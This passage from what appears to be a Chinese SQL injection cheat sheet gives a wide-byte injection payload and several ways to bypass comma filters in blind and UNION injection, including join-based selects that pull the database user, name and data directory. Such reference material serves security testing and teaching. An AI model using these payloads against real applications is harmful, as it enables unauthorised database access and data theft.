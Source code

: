 ```sql
id=-1%df%27union select 1,user(),3--+
```

### 11.对于逗号的绕过
<font style="color:rgb(77, 77, 77);">sql盲注时常用到以下的函数：</font>

```sql
substr()
substr(string, pos, len):从pos开始，取长度为len的子串
substr(string, pos):从pos开始，取到string的最后

substring()
用法和substr()一样

mid()
用法和substr()一样，但是mid()是为了向下兼容VB6.0，已经过时，以上的几个函数的pos都是从1开始的

left()和right()
left(string, len)和right(string, len):分别是从左或从右取string中长度为len的子串

limit
limit pos len:在返回项中从pos开始去len个返回值，pos的从0开始

ascii()和char()
ascii(char):把char这个字符转为ascii码
char(ascii_int):和ascii()的作用相反，将ascii码转字符
```

#### **<font style="color:#000000;">对于substr()和mid()这两个方法可以使用from for 的方式来解决</font>**
```sql
 select substr(database() from 1 for 1)='c';
```

#### <font style="color:#000000;">使用join关键字来绕过</font>
```sql
union select 1,2,3,4;
union select * from ((select 1)A join (select 2)B join (select 3)C join (select 4)D);
union select * from ((select 1)A join (select 2)B join (select 3)C join (select group_concat(user(),' ',database(),' ',@@datadir))D);
```

#### <font style="color:#000000;">使用like关键字 适用于substr()等提取子串的函数中的逗号</font>
```sql
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```

#### <font style="color:#000000;">使用offset关键字</font>
```sql
 select * from cms_users limit 0,1;
# 等价于下面这条SQL语句
 select * from cms_users limit 1 offset 0;
```
